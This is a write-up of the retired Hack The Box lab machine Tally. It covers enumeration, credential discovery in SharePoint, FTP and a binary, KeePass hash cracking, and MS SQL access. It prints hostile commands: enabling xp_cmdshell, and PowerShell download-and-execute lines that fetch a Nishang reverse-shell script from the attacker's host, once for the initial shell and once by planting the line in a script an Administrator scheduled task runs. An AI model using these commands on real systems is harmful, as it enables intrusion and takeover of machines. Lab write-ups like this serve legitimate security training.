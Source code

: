 # Tally

This is the write-up for the box Tally that got retired at the 28th May 2018.
My IP address was 10.10.14.34 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.59    tally.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tally.nmap 10.10.10.59
```

```markdown
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst:         
|_  SYST: Windows_NT                                                                             
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
81/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0                                                      
|_http-title: Bad Request
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
808/tcp  open  ccproxy-http?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2016 13.00.1601.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: TALLY                                                                           
|   NetBIOS_Domain_Name: TALLY                                                                   
|   NetBIOS_Computer_Name: TALLY       
|   DNS_Domain_Name: TALLY
|   DNS_Computer_Name: TALLY
|_  Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-05-23T16:45:02
|_Not valid after:  2050-05-23T16:45:02
|_ssl-date: 2020-05-23T16:48:23+00:00; +2m27s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page is a **SharePoint** page with no contents.
Lets search for hidden directories with **Gobuster**:
```markdown
gobuster -u http://10.10.10.59 dir -w /usr/share/seclists/Discovery/Web-Content/CMS/sharepoint.txt
```

An interesting directory in SharePoint by default is _/_layouts/viewlsts.aspx_ in which it shows the sites contents:

![Site contents](https://kyuu-ji.github.io/htb-write-up/tally/tally_web-1.png)

In _Site Pages_ is a web page file called _"FinanceTeam.aspx"_ which is a page on the SharePoint with the following message:
```markdown
Hi all,

Welcome to your new team page!
As always, there's still a few finishing touches to make. Rahul - please upload the design mock ups to the Intranet folder as 'index.html' using the ftp_user account - I aim to review regularly.

We'll also add the fund and client account pages in due course.

Thanks - Sarah & Tim.
```

In _Documents_ is a Word document called _"ftp-details.docx"_ with the following contents:
```markdown
FTP details
hostname: tally
workgroup: htb.local
password: UTDRSCH53c"$6hys
Please create your own user folder upon logging in
```

Combining the information from the message and the Word document, it means we probably got credentials for the FTP service:
> ftp_user:UTDRSCH53c"$6hys

```markdown
ftp 10.10.10.59
```

Login works and enumerating the FTP service is next.

## Checking FTP (Port 21)

In the FTP directory are many folders with subfolders and files, so lets download all of it to our local client.
```markdown
wget --mirror 'ftp://ftp_user:UTDRSCH53c"$6hys@10.10.10.59'
```

The top folders are as follows with many subfolders:
- From-Custodian
- Intranet
- Logs
- To-Upload
- User

In _/User_ are 9 usernames and _Tim_ has a **KeePass** database in _User/Tim/Files/tim.kdbx_ and a text file in _User/Tim/Project/Log/do to.txt_ that says:
```markdown
To do:
Remove migration folder
Set secure share permissions

encrypted share creds:
password in keepass
```

Lets try to crack the password of the KeePass database:
```markdown
keepass2john ./Tim/Files/tim.kdbx

# Output
$keepass$\*2*6000*0*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da
```

Cracking the hash with **Hashcat**:
```markdown
hashcat -m 13400 tally-tim.keepass /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password is:
> simplementeyo

There are two credentials in there and one that could be the one for the encrypted share he mentioned in his text file:
```markdown
Title: TALLY ACCT share
User Name: Finance
Password: Acc0unting

Title: Default
User Name: cisco
Password: cisco123
```

We know that the SMB service is open so lets mount the share locally for easier browsing:
```markdown
mount -t cifs -o username=Finance //10.10.10.59/ACCT /mnt/tally
```

The password works and enumerating SMB is next.

## Checking SMB (Port 445)

There are many folders and subfolders but the most interesting folder is called _zz_Migration_ as _Tim_ wanted to remove this folder.
After searching for a while, there is a binary called _zz_Migration/Binaries/New Folder/tester.exe_ which looks suspect next to the other binaries that are legitimate.

Lets look at the **strings** of the binary:
 ```markdown
strings tester.exe
```

It seems like there are hardcoded credentials in the binary for **Orchard database**:
```markdown
(...)
Message:
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
(...)
```

As the initial scan showed, **Microsoft SQL Server** service listens on port 1433 and login with these credentials work:
```markdown
sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G
```

## Checking Microsoft SQL Server (Port 1433)

With the connection on MS SQL Server we try to start a shell on the box:
```markdown
xp_cmdshell
go
```

It says that is not enabled, so lets enable it:
```markdown
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go

EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
```

Now executing a `whoami` command:
```markdown
xp_cmdshell 'whoami'
go
```

It shows that we are the local user _sarah_. I will use a the _Invoke-PowerShellTcp.ps1_ script from the **Nishang Framework** so start a reverse shell on the box:
```markdown
xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34/Invoke-PowerShellTcp.ps1')"
go
```

After executing the listener on my IP and port 9001 starts a reverse shell session as _sarah_.

## Privilege Escalation

In the home directory _C:/Users/Sarah/Desktop_ are some more interesting files:
- note to tim (draft).txt
```markdown
Hi Tim,

As discussed in the cybersec meeting, malware is often hidden in trusted executables in order to evade detection. I read somewhere that cmd.exe is a common target for backdooring, so I've gone ahead and disallowed any cmd.exe outside the Windows folder from executing.

Thanks,
Sarah
```

- todo.txt
```markdown
done:
install updates
check windows defender enabled

outstanding:
update intranet design
update server inventory
```

- SPBestWarmUp.ps & SPBestWarmUp.xml

The Powershell script can be found on the internet but it is irrelevant what it does. In the XML file it shows, that it creates a scheduled task which executes the Powershell script every hour with the user id of _TALLY\Administrator_.

Our user has permission to write to the Powershell script, so lets use it to start a reverse shell as _Administrator_.
```markdown
echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.34/Invoke-PowerShellTcp.ps1')" > SPBestWarmUp.ps1
```

After one hour the listener on my IP and port 9002 will start a reverse shell as Administrator!

